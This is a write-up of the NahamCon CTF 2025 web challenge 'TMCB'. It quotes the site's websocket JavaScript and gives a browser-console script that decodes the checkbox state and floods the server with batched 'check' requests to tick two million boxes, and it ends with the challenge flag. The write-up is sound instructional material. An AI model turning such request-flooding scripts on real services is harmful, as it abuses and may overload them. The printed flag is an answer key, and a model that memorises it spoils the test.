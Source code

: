```yaml
---
name: TMCB (2025)
event: NahamCon CTF 2025
category: Web
description: Writeup for TMCB (Web) - NahamCon CTF (2025) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# TMCB

## Description

> They thought they could impress us with One Million Checkboxes!? _Pfft..._ how about _**TWO** Million Checkboxes?!_

> Ya gotta check'em all!!

## Solution

We have 2 million checkboxes to tick!

![](images/0.PNG)

Checking the JS, it becomes apparent the "checks" are done with websockets.

![](images/1.PNG)

We can base64 decode.

![](images/2.PNG)

Presumably we can write a brute force script to solve this, but I will focus on the JS. We quickly see how the requests function.

{% code overflow="wrap" %}
```js
ws.onmessage = function (event) {
    const data = JSON.parse(event.data);
    if (data.checked) {
        try {
            // Decode base64
            const decoded = atob(data.checked);
            // Convert to Uint8Array for pako
            const compressed = new Uint8Array(decoded.length);
            for (let i = 0; i < decoded.length; i++) {
                compressed[i] = decoded.charCodeAt(i);
            }
            // Decompress using pako
            const decompressed = pako.inflate(compressed, { to: "string" });
            // Parse JSON
            const checkboxList = JSON.parse(decompressed);

            checkedBoxes = new Set(checkboxList);
            updateUI();

            // Hide loading overlay and show content
            if (loadingOverlay) {
                loadingOverlay.style.display = "none";
            }
            if (content) {
                content.classList.add("loaded");
            }

            // Load initial batch of checkboxes
            loadMoreCheckboxes();
        } catch (e) {
            console.error("Error processing compressed data:", e);
        }
    }
    if (data.error) {
        console.error("WebSocket error:", data.error);
    }
};
```
{% endcode %}

I was thinking of using JS to tick all the boxes though 😁 I ask ChatGPT for a quick script.

{% code overflow="wrap" %}
```js
(async () => {
    const TOTAL_CHECKBOXES = 2_000_000;
    const BATCH_SIZE = 500000;
    const CHECK_DELAY_MS = 5; // fast, but adjustable if needed

    const ws = new WebSocket(`ws://${location.host}/ws`);

    ws.onopen = () => {
        console.log("[+] WebSocket connected, requesting state...");
        ws.send(JSON.stringify({ action: "get_state" }));
    };

    ws.onmessage = async (event) => {
        const data = JSON.parse(event.data);
        if (data.checked) {
            console.log("[+] Received compressed checkbox state...");
            try {
                // Decode base64 and decompress
                const decoded = atob(data.checked);
                const compressed = new Uint8Array(decoded.length);
                for (let i = 0; i < decoded.length; i++) {
                    compressed[i] = decoded.charCodeAt(i);
                }
                const decompressed = pako.inflate(compressed, { to: "string" });
                const checkedList = new Set(JSON.parse(decompressed));
                console.log(`[+] ${checkedList.size.toLocaleString()} already checked.`);

                // Identify unchecked boxes
                const toCheck = [];
                for (let i = 0; i < TOTAL_CHECKBOXES; i++) {
                    if (!checkedList.has(i)) toCheck.push(i);
                }

                console.log(`[+] ${toCheck.length.toLocaleString()} to check. Sending in ${Math.ceil(toCheck.length / BATCH_SIZE)} batches...`);

                // Batch check requests
                let batchIndex = 0;
                const sendNextBatch = () => {
                    if (batchIndex * BATCH_SIZE >= toCheck.length) {
                        console.log("[✓] All batches sent.");
                        return;
                    }

                    const batch = toCheck.slice(batchIndex * BATCH_SIZE, (batchIndex + 1) * BATCH_SIZE);
                    ws.send(JSON.stringify({ action: "check", numbers: batch }));
                    batchIndex++;
                    setTimeout(sendNextBatch, CHECK_DELAY_MS);
                };

                sendNextBatch();
            } catch (e) {
                console.error("[-] Failed to process checkbox state:", e);
            }
        }
    };

    ws.onclose = () => {
        console.warn("[!] WebSocket closed. You may need to reload and resume.");
    };
})();
```
{% endcode %}

Paste this in the browser console, but it will take a few mins (250 batches)

![](images/3.PNG)

After 1-2 minutes, we are done.

![](images/4.PNG)

Actually, I don't know why ChatGPT set the batch size at 8000. I increased it to 500,000 and it solves in 4 batches. Maybe you can just send 2,000,000 in one go! When the page is refreshed, we have the flag.

![](images/5.PNG)

Flag: `flag{7d798903eb2a1823803a243dde6e9d5b}`
